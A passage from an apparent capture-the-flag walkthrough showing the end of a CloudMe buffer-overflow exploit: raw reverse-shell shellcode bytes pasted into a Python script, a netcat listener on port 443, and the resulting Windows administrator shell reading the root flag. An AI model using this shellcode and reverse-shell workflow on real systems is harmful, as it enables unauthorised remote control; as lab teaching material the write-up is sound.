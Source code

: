     payload += b"\xbf\xaa\x05\x57\x2b\xc3\x1b\x67\x52\xa8\x95\x81"
    payload += b"\x3e\xde\xf3\x1a\xd7\x47\x5e\xd0\x46\x87\x74\x9d"
    payload += b"\x49\x03\x7b\x62\x07\xe4\xf6\x70\xf0\x04\x4d\x2a"
    payload += b"\x57\x1a\x7b\x42\x3b\x89\xe0\x92\x32\xb2\xbe\xc5"
    payload += b"\x13\x04\xb7\x83\x89\x3f\x61\xb1\x53\xd9\x4a\x71"
    payload += b"\x88\x1a\x54\x78\x5d\x26\x72\x6a\x9b\xa7\x3e\xde"
    payload += b"\x73\xfe\xe8\x88\x35\xa8\x5a\x62\xec\x07\x35\xe2"
    payload += b"\x69\x64\x86\x74\x76\xa1\x70\x98\xc7\x1c\xc5\xa7"
    payload += b"\xe8\xc8\xc1\xd0\x14\x69\x2d\x0b\x9d\x99\x64\x11"
    payload += b"\xb4\x31\x21\xc0\x84\x5f\xd2\x3f\xca\x59\x51\xb5"
    payload += b"\xb3\x9d\x49\xbc\xb6\xda\xcd\x2d\xcb\x73\xb8\x51"
    payload += b"\x78\x73\xe9" 
    

I changed the payload type (and included `LHOST` and `LPORT` needed for this
payload), and I used the `-v payload` to set the output payload variable name
so I can just paste it into the script.

### Shell

Now I just run the exploit through the tunnel with `nc` waiting (work with
either legacy Python or Python3):

    
    
    root@kali# python3 cloudme-bof.py 
    

At `nc`, I get an administrator shell:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.198.
    Ncat: Connection from 10.10.10.198:49683.
    Microsoft Windows [Version 10.0.17134.1550]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    buff\administrator
    

And I can grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    0e2cf4e5************************
    

## Beyond Root

### Gym Exploit
